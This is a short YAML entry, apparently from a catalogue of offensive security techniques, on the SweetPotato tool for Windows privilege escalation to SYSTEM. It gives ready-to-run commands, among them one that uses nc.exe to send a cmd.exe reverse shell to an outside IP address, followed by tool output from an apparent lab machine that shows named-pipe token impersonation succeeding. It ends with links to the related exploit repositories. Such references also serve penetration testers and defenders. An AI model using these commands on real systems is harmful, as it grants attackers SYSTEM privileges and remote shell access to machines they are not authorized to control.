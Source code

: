 ```yaml
---
functions:
  privilege-escalation:
    - description: A collection of various native Windows privilege escalation techniques from service accounts to SYSTEM
      code: |
        ./SweetPotato.exe -p C:\Users\nathan\Nexus\nexus-3.21.0-05\shell.exe
        SweetPotato.exe -p nc.exe -a "10.10.14.10 80 -e cmd.exe"
        SweetPotato by @_EthicalChaos_
          Orignal RottenPotato code and exploit by @foxglovesec
          Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
          PrintSpoofer discovery and original exploit by @itm4n
          EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
        [+] Attempting NP impersonation using method PrintSpoofer to launch C:\Users\nathan\Nexus\nexus-3.21.0-05\shell.exe
        [+] Triggering notification on evil PIPE \\billyboss/pipe/6265ea16-b179-4951-a8f7-379aea157d97
        [+] Server connected to our evil RPC pipe
        [+] Duplicated impersonation token ready for process creation
        [+] Intercepted and authenticated successfully, launching program
        [+] Process created, enjoy!


resources: |
  https://github.com/CCob/SweetPotato
  https://github.com/ohpe/juicy-potato
  https://github.com/itm4n/PrintSpoofer
  https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
  https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2
---
```

